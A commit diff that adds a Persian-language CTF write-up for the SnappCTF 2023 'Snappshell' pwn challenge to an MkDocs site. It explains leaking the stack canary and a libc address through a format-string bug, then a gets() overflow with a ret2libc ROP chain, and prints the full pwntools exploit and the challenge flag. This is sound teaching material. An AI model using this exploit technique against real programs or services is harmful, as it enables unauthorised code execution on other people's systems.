

Before and after one commit to FlagMotori/writeups, an MkDocs documentation site: the page built from docs/tags.md, in a window 1280 px wide and 1400 px high, scrolled down 550 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
add snapp ctf pwn writeups (#13)
تغییراتی توی قسمت
pwn
انجام شد و رایتاپ سوال snappshell اضافه شد.

````diff
--- /dev/null
+++ b/docs/pwn/writeups/SnappCTF/Snappshell.md
@@ -0,0 +1,115 @@
+---
+tags:
+  - SnappCTF
+  - SnappCTF-2023
+  - PWN
+  - Exploit
+  - Shell
+  - ROP
+  - Pwntools
+  - Canary
+  - BufferOverflow
+---
+# Snappshell
+
+<center>
+![challenge](Snappshell-1.png)
+</center>
+
+در این چالش با یک فایل فشرده رو به رو هستیم که شامل یک فایل باینری و یک Dockerfile هست.
+در ابتدا از طریق دستور checksec با چنین تصویر ترسناکی رو به رو میشیم! :)
+
+<center>
+![Snappshell-2.png](Snappshell-2.png)
+</center>
+
+بعد از اینکه فایل باینری رو با gdb و ghidra بررسی میکنیم متوجه میشیم که هیچ تابعی برای [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) کردن وجود نداره و همچنین فعال بودن [NX](https://en.wikipedia.org/wiki/NX_bit) متوجه میشیم که نیاز به شل گرفتن از برنامه هست ولی خب چطوری باید این کارو کرد؟!
+برای اینکه به این هدفمون دست پیدا کنیم نیازه تا از تکنیک [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) برای دور زدن NX استفاده کنیم.
+یکی از موانع سر راه همونطوری که توی عکس بالا هم پیداست فعال بودن یک مکانیسم امنیتی دیگه به اسم [Stack Canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/) هست.
+برای اینکه یک قدم رو به جلو حرکت کنیم اول سعی میکنیم تا Canary رو دور بزنیم.
+بعد از اینکه توابع به کار رفته توی برنامه رو دقیق تر با ghidra بررسی میکنیم چشممون به تابع printf ای میوفته (توی تابع echo برنامه، هایلاتش کردم توی تصویر زیر) که آسیب پذیری [Format String](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/) رو داره و احتمالا میتونیم از این طریق به مقدار cookie و... که توی استک موجود هستن دست پیدا کنیم.
+
+<center>
+![Snappshell-3.png](Snappshell-3.png)
+</center>
+
+بعد از کلی سر و کله زدن با این آسیب پذیری (و یا خودکار کردن روندش با یک کد پایتون ساده) به ی همچین ساختاری میرسیم.
+`%31$p`
+با فرستادن یک همچین استرینگی به سمت تابع echo برنامه ، خیلی راحت مقدار cookie رو به دست میاریم.
+
+<center>
+![Snappshell-4.png](Snappshell-4.png)
+</center>
+
+بعد از اینکه canary رو اوکی کردیم میریم سراغ قسمت سخت ماجرا یعنی پیدا کردن gadget های مناسب و استفاده ازشون برای ساخت زنجیره ROP امون و اینکه چطوری میشه این زنجیره رو به خورد برنامه داد.
+
+جواب ما توی تابع find_index هست. توی این تابع با یک gets رو به رو هستیم و به صورت دیفالت وقتی این تابع رو میبینیم باید یاد آسیب پذیری [BufferOverflow](https://ctf101.org/binary-exploitation/buffer-overflow/) بیوفتیم.
+
+<center>
+![Snappshell-5.png](Snappshell-5.png)
+</center>
+
+
+برای این قسمت که باید بدونین به چه gadget هایی نیاز دارید و دستتون بیاد حدودا که چطوری باید ROP رو اوکی کنید (و یکمم خودتون تلاش کنین) ارجاعتون میدم به لینک های زیر:
+[Bypassing Canary & PIE](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)
+[ROP - Leaking LIBC address](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address)
+[ROP: bypass NX, ASLR, PIE and Canary](https://ironhackers.es/en/tutoriales/pwn-rop-bypass-nx-aslr-pie-y-canary/)
+
+از جمله مواردی که نیاز میشه اینجا بهش توجه کنین این هست برای استفاده از gadget ها احتمالا نیازتون میشه که از libc  درستی استفاده کنید. واسه اینکار باید به اون Dockerfile دقت میکردید و بعد از وصل شدن به docker سعی میکردید تا libc اصلی رو کپی کنید روی سیستم خودتون. دستور زیر میتونه کار رو دربیاره :
+`docker cp 4fd9a29bfcdc:/usr/lib/x86_64-linux-gnu/libc.so.6 .`
+
+بعد از این شما libc رو دارید و تنها کافیه تا برای پیدا کردن pop و sh و ret و system  از ابزار ROPgadget و یکمم pwntools استفاده کنید.  یک نمونه رو هم میتونید توی تصویر زیر ببینید:
+<center>
+![Snappshell-6.png](Snappshell-6.png)
+</center>
+
+در نهایت بعد از همه این قضایا به exploit زیر میرسیم :
+```python
+from pwn import *
+
+def index(s):
+    p.sendlineafter(b'4- exit\n', b"3")
+    p.sendline(s)
+    return p.readline().rstrip()
+
+def echo(s):
+    p.sendlineafter(b'4- exit\n', b"1")
+    p.sendlineafter(b'Enter your input\n', s.encode())
+    return p.readline().strip()
+
+#p = remote('91.107.177.236', 3117)
+p = process('./shell_patched')
+libc = ELF('./libc.so.6', checksec = False)
+
+libc_add = echo(f'%33$p')
+
+canary = p64(int(echo(f'%31$p'), 16))
+
+libc_add = p64(int(libc_add, 16))
+
+libc_add = int.from_bytes(libc_add, byteorder = 'little')
+
+libc.address = (libc_add - 0x1e40) - 0x0000000000028000
+
+pop = libc.address + 0x000000000002a3e5
+
+ret = libc.address + 0x0000000000029139
+
+final_payload = b'A' * 19 + b'SNAPP' + canary + b'\x00' * 8 +  p64(pop) + p64(next(libc.search(b'/bin/sh\x00'))) + p64(ret) + p64(libc.sym[b'system'])
+
+p.sendlineafter(b'4- exit\n', b"3")
+p.sendline(final_payload)
+
+p.interactive()
+p.close()
+```
+
+
+
+??? success "FLAG :triangular_flag_on_post:"
+    <div dir="ltr">`SNAPP{Sn4Pp_sH3ll_leT_m3_!!nn}`</div>
+
+---
+
+!!! نویسنده
+    [nim0x2a](https://github.com/nim0x2a)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۶
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -190,6 +190,9 @@
 
     - PWN:
         - pwn/index.md
+        - رایتاپ‌های ۲۰۲۴:
+            - SnappCTF:
+                - pwn/writeups/SnappCTF/Snappshell.md
 
 
     #- بلاکچین:
````
Also changed, not shown: docs/pwn/writeups/SnappCTF/Snappshell-1.png (added), docs/pwn/writeups/SnappCTF/Snappshell-2.png (added), docs/pwn/writeups/SnappCTF/Snappshell-3.png (added), docs/pwn/writeups/SnappCTF/Snappshell-4.png (added), docs/pwn/writeups/SnappCTF/Snappshell-5.png (added), docs/pwn/writeups/SnappCTF/Snappshell-6.png (added).
